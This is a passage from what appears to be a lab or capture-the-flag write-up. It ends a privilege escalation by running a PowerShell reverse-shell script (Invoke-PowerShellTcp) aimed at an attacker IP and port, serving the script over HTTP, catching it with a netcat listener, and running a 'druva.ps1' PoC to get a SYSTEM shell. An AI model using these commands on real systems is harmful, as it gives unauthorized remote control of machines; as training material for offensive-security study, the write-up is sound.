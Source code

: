 ```bash
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.23 -Port 9443
```


Now in our attacking machine we can serve the shell.ps1 file:

```shell-session
python3 -m http.server 8080
```

We also need a listener to catch the SYSTEM shell:

```shell-session
 nc -lvnp 9443
```

Now, we just run the PoC:

```powershell
.\druva.ps1
```

And we will obtain the reverse shell.